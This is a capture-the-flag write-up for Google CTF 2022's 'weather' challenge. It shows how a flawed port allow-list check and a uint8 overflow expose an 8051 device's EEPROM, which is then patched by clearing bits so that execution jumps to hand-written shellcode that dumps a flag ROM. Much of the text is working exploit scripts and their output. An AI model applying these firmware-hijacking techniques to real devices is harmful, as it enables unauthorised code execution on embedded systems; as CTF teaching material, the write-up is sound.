










# weather

### Our DYI Weather Station is fully secure! No, really! Why are you laughing?! OK, to prove it we're going to put a flag in the internal ROM, give you the source code, datasheet, and network access to the interface.
******
Their weather station is running on a 8051 microcontroller, and the code is stored on a programmable eeprom module. We are provided a `firmware.c` file, and a datasheet that describes the usage of the peripheral devices attached to their weather station. We are given read+write access to ports 101, 108, 110, 111, and 119. Although writing to these ports does nothing.



The flag is stored in FLAGROM module and only accessible through ports 0xEE and 0xEF



The firmware file itself never actually reads or writes to the FLAGROM registers, so in order to leak the flag we have to somehow overwrite some of their firmware code.

The format of the commands to read or write to the ports is:
| command operation | port                  | request length    | data                                            |
|-------------------|-----------------------|-------------------|-------------------------------------------------|
| `r` or `w`        | port number as string | req len as string | if mode is `w` the bytes to write into the port |

Read 64 bytes from port 101: `r 101 64`

Write 5 bytes to port 101: `w 101 5 16 34 78 90 20`


I discovered the bug in their program by accident. I forgot to put a space between the port number and the request length and I got a `"i2c status: error - device not found\n"` error. I immediately knew that I had discovered something because the only two statuses that should be possible for the device to return (assuming correct command format) are `"i2c status: transaction completed / ready\n"` or `"-err: port invalid or not allowed\n"`. Taking a second look at their port validation code I realized what the bug was.

```c
const char *ALLOWED_I2C[] = {
  "101",  // Thermometers (4x).
  "108",  // Atmospheric pressure sensor.
  "110",  // Light sensor A.
  "111",  // Light sensor B.
  "119",  // Humidity sensor.
  NULL
};

bool is_port_allowed(const char *port) {
  for(const char **allowed = ALLOWED_I2C; *allowed; allowed++) {
    const char *pa = *allowed;
    const char *pb = port;
    bool allowed = true;
    while (*pa && *pb) {
      if (*pa++ != *pb++) {
        allowed = false;
        break;
      }
    }
    if (allowed && *pa == '\0') {
      return true;
    }
  }
  return false;
}
```

Their `is_port_allowed` function only compares the port strings as long as the chars it is currently comparing are both not `NULL`.
```c
    while (*pa && *pb) {
```
As soon as it sees a `NULL` byte it stops. This can be abused because suddenly this is a valid port: `"1112347\x00"`.
For example when comparing the port strings `"111\x00` and `"1112347\x00"` it only checks the first three chars because when it gets to the fourth character it sees a `NULL` byte and returns `true` for port allowed.
```c
uint8_t str_to_uint8(const char *s) {
  uint8_t v = 0;
  while (*s) {
    uint8_t digit = *s++ - '0';
    if (digit >= 10) {
      return 0;
    }
    v = v * 10 + digit;
  }
  return v;
}

int8_t port_to_int8(char *port) {
  if (!is_port_allowed(port)) {
    return -1;
  }

  return (int8_t)str_to_uint8(port);
}
```
If the port is validated as allowed it is then parsed into a `u8` and returned. But a port string can be crafted so that the first three chars match an allowed port, passing the validation, but when it is parsed into a `u8` it overflows and becomes a different number.

Proof of concept:
```
> nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 110 4
i2c status: transaction completed / ready
78 0 0 0 
-end
? r 11118 4
i2c status: transaction completed / ready
78 0 0 0 
-end
```
Two different port strings are able to access the same port, and both pass their validation function. In the datasheet it tells us that device addresses (port numbers) are 7 bit numbers, this means that we can easily enumerate over all 128 possible devices to find a peripheral that we were not meant to access.
```python
from pwn import *
io = remote("weather.2022.ctfcompetition.com", 1337)
print(io.recvline())
print(io.recvline())

def build(ps, target):
    for p in ps:
        for ch in "0123456789":
            if int(p + ch) % 256 == target:
                return p + ch
            else:
                ps.append(p + ch)
        ps.pop(0)
    return build(ps, target)

valid = []
try:
    for i in range(128, -1, -1):
        addr = build(["111"], i).encode()
        payload = b' ' + addr + b' 128'
        io.sendline(b'w ' + addr + b' 1 1')
        r = io.recvline()
        if b'ready' in r:
            valid.append(i)
        print("%d\t%s\t%s" % (i, addr, r))
finally:
    print(valid)
```
After running this program it outputs all the peripherals that it was able to successfully access: `[119, 111, 110, 108, 101, 33]`.

Peripherals 119, 111, 110, 108, and 101 are already known to us but 33 is a new device. I was really hoping that 33 would be the FLAGROM:
```
> nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 111137 128
i2c status: transaction completed / ready
2 0 6 2 4 228 117 129 48 18 8 134 229 130 96 3
2 0 3 121 0 233 68 0 96 27 122 0 144 10 2 120
1 117 160 2 228 147 242 163 8 184 0 2 5 160 217 244
218 242 117 160 255 228 120 255 246 216 253 120 0 232 68 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0
0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 0 
-end
```
but no such luck. Reading from device 33 yields non-ascii data so it is definitely not the FLAGROM module. Strangely reading from this device returns 64 bytes of data followed by 64 bytes of `0`. While experimenting with reading and writing to this device I noticed that writing a `1` to the port and then reading from it returned different data than not writing anything and reading.
```
> nc weather.2022.ctfcompetition.com 1337
== proof-of-work: disabled ==
Weather Station
? r 111137 64
i2c status: transaction completed / ready
2 0 6 2 4 228 117 129 48 18 8 134 229 130 96 3
2 0 3 121 0 233 68 0 96 27 122 0 144 10 2 120
1 117 160 2 228 147 242 163 8 184 0 2 5 160 217 244
218 242 117 160 255 228 120 255 246 216 253 120 0 232 68 0 
-end
? w 111137 1 1
i2c status: transaction completed / ready
? r 111137 64
i2c status: transaction completed / ready
96 10 121 1 117 160 0 228 243 9 216 252 120 0 232 68
2 96 12 121 2 144 0 1 228 240 163 216 252 217 250 117
8 238 117 9 9 117 10 128 117 11 242 117 12 9 117 13
128 117 14 246 117 15 9 117 16 128 117 17 250 117 18 9 
-end
```
That is when I realized that device 33 was the eeprom module.



The reason the returned data changed when a `1` was written into device 33 was because it was selecting a different page to read from, and 64 bytes of data followed by 64 bytes of `0` were always returned because the eeprom only allowed reading up to 64 bytes. To make sure that this was really the eeprom I dumped as much data from the eeprom as possible and attempted to decompile it using ghidra.
```python
from pwn import *
io = remote("weather.2022.ctfcompetition.com", 1337)
print(io.recvline())
print(io.recvline())

addr = b"111137"
data = []
i = 0
try:
    while True:
        io.sendline(b'w ' + addr + b' 1 ' + str(i).encode())
        io.recvline()
        io.sendline(b'r ' + addr + b' 64')
        io.recvline()
        out = []
        for _ in range(4):
            out.append(io.recvline())
        data.append(out)
        io.recvline()
        i += 1
finally:
    data.pop()
    open("firmware.bin", "ab").write(b''.join([b''.join([b''.join([p8(int(b)) for b in line.strip().split(b' ')]) for line in block]) for block in data]))
    print("last: %d", i)
```
ghidra output:



Ok so device 33 is confirmed to be the eeprom. The datasheet tells us how the eeprom data can be reprogrammed:



Unfortunately it only gives us the ability to clear bits, not to set them, and this prevents us from rewriting the firmware code with an arbitrary program. While looking through the ghidra I noticed an area of the eeprom from address `0A02h` to `0FFFh` that was all `FFh`s.



Because this area contained only set bits we can clear certain bits and write arbitrary code here. But first we need to find a way to force the main program to jump into our malicious code. I know `arm`, `x86_64`, and `6502` assembly, but have never worked with `8051` assembly, so I found a [opcode table](https://www.keil.com/support/man/docs/is51/is51_opcodes.htm) online. After looking through it decided that the easiest way to do this was to overwrite part of the main program to a `LJMP` or `LCALL` instruction, which both branch to an absolute 16 bit address.




| INSTR | byte 1 | byte 2            | byte 3            |
|-------|--------|-------------------|-------------------|
| LJMP  | `02h`   | address bits 15..8 | address bits 7..0 |
| LCALL | `12h`   | address bits 15..8 | address bits 7..0 |


As the eeprom only allows bits to be cleared and does not allow bits to be set, 2 bytes need to be found within the program that meet specific requirements:

1. byte 1 must contain `02h` or `12h`
2. byte 1 must fall on an instruction boundary (e.g. it must be the start of already existing instruction)
3. byte 2 must contain `0Ah`

(byte `a` contains byte `b` if the bits that are set in byte `b` are also set in byte `a`. This can be easily checked using bitwise operators, e.g. if (byte `a`) | (byte `b`) == (byte `a`) then byte `a` is guaranteed to contain byte `b`.)

This is important because if byte `a` contains byte `b` certain bits can be cleared to make byte `a` == byte `b`. The third byte does not matter because as long as the branch instruction is able to jmp address `0AXXh` the exploit will work. If bytes are found that meet those requirements then those bytes can be poked to become a `LJMP` or `LCALL` to `0AXXh` where the malicious code would be.

program to find possible locations to hijack:
```python
# function to check if byte a contains byte b
def valid(a, b):
    return a | b == a

# 02h is the opcode for LJMP
# 12h is the opcode for LCALL
ops = [0x02, 0x12]

# firmware bytes extracted from the eeprom
# in an earlier program
f = open("firmware.bin", "rb")
d = f.read()
f.close()

ps = []
for i in range(len(d)-1):
    b = d[i]
    # stop when the FFh region is reached
    if d[i:i+3] == b'\xff\xff\xff':
        break
    for op in ops:
        h = d[i + 1]
        if valid(b, op) and valid(h, 0x0A):
            ps.append(hex(i))

print(ps)
```
```
['0x19', '0x19', '0x95', '0xa4', '0xa6', '0xbf', '0xce', '0xd0', '0xe9', '0xeb', ... ]
```

Not all the returned addresses can be hijacked because the code cannot check whether or not byte 1 actually starts at an instruction boundary, so not all of the returned addresses start at instruction boundaries. I finally found bytes to overwrite at address `E9h`.



Address `E9h` contains the bytes `22h AFh 82h`.
binary:
```
00100010 10101111 10000010
```
clearing certain bits rewrites it to:
```
00000010 00001010 00000010
```
`02h` is the opcode for `LJMP` and the jmp address is the word after the first byte `0A02h`, which is where our code to output the flag will be. The instruction that is being overwritten is final `RET` inside the `i2c_read` function.



If we want to trigger the jmp to our malicious code the `RET` must be overwritten then firmware first must call `i2c_read` and when it tries to return it jmps to our injected code (now its just like a ROP attack XD).

Now we have the ability to hijack the firmware program and redirect it to our own code, we need to actually write a program that reads the FLAGROM and dumps it to stdout. I spent some time looking for `8051` assemblers and I found three, one I never figured out how to build because it kept throwing errors during `make` and the other two I could not find the download links. In the end I decided to just write the machine code myself because it was pretty simple.
```x86asm
db 0x78, 0x00         ; mov R0, #0
wait_for_ready:
db 0xE5, 0xF3         ; mov A, SERIAL_WRITE_READY
db 0x60, 0xFC         ; jz wait_for_ready
db 0xE8               ; mov A, R0
db 0x08               ; inc R0
db 0xF5, 0xEE         ; mov FLAGROM_ADDR, A
db 0xE5, 0xEF         ; mov A, FLAGROM_DATA
db 0xF5, 0xF2         ; mov SERIAL_OUT, A
db 0x80, 0xF2         ; sjmp wait_for_ready
```
finally putting it all together:
```python
from pwn import *
io = remote("weather.2022.ctfcompetition.com", 1337)
print(io.recvline())
print(io.recvline())

def overwrite(page, mask):
    io.sendline(b'w 111137 ' + str(5 + len(mask)).encode() +  b' ' + str(page).encode() + b' 165 90 165 90 ' + b' '.join([str(b).encode() for b in mask]))
    print(io.recvline())

payload = [0, 0]
data = open("payload.bin", "rb").read()
for b in data:
    payload.append(0xff & ~b)

ret_mask = [
0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0,
0, 0, 0, 0, 0, 0, 0, 0, 0, 32, 165, 128,
]

overwrite(40, payload)
overwrite(3, ret_mask)
io.sendline(b'r 111137 64')

for _ in range(4):
    print(io.recv(timeout=2))
```
```
> python3 prog.py
[+] Opening connection to weather.2022.ctfcompetition.com on port 1337: Done
b'== proof-of-work: disabled ==\n'
b'Weather Station\n'
b'? i2c status: transaction completed / ready\n'
b'? Weather Station\n'
b'? '
b'C'
b'TF{DoesAnyoneEvenReadFlagsAnymore?}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00CTF{DoesAnyoneEvenReadFlagsAnymore?}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00CTF{DoesAnyoneEvenReadFlagsAnymore?}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00CTF{DoesAnyoneEvenReadFlagsAnymore?}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00CTF{DoesAnyoneEvenReadFlagsAnymore?}\n\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00CTF{DoesAnyoneEvenReadFlagsAnymore?}\n\x00\x00\x00\x00\x00\x00\x00\x0